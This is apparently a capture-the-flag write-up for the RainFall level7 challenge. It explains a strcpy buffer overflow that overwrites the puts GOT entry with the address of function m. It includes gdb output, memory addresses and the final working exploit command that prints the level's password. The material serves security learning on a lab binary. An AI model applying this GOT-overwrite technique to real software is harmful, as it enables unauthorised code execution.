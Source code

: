 # Walkthrough

**Main** : 
The goal is to use a buffer overflow to overwrite the address of the `puts` function in the Global Offset Table with the address of the `m` function, so that when `put` function is called later, it will actually execute `m`

Overwriting the return address with the address of the `puts` function and then having the `puts` function execute the instructions of the `m` function, you achieve the desired outcome of calling the `m` function instead of `puts`.

We going use the first argument to exploit `strcpy`

**Process**:  
>   1. Find the offset
>   2. Get address of put
>     3. Get address of `m()`
>    4.  Load parameters
>    
### Source:
>[What is difference between Dynamic and Static librar](https://www.youtube.com/watch?v=eW5he5uFBNM)
>[ difference between Dynamic and Static librar](https://www.youtube.com/watch?v=Re5Z607jA0A)
>[GOT](https://www.youtube.com/watch?v=t1LH9D5cuK4&t=212s)
>[PLT and GOT](https://www.youtube.com/watch?v=NdlvRRUBG5Y&t=317s)
>[Got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628)
## Step 1

### Find the offset 

To the find the offset i used a  [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) 
 1.   Offset of first  `strcpy()`  **20**  bytes
```
level7@RainFall:~$ ./level7 012345678901234567890 1234567 
Segmentation fault (core dumped)
```
## Step 2 
### Get address of `puts()`
 1. disassambly the main function got the the plt :
  
```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt> <--- here
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
(gdb) disassemble 0x8048400
Dump of assembler code for function puts@plt: 
   0x08048400 <+0>:	jmp    *0x8049928 <--- GOT table
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
```

## Step 2 
### Get address of `m()`

```
(gdb) print &m
$1 = (<text variable, no debug info> *) 0x80484f4 <m>
```

## Step 3 

###  Load parameter

passe the pass as parameter
```
level7@RainFall:~$ ./level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1693757825
```


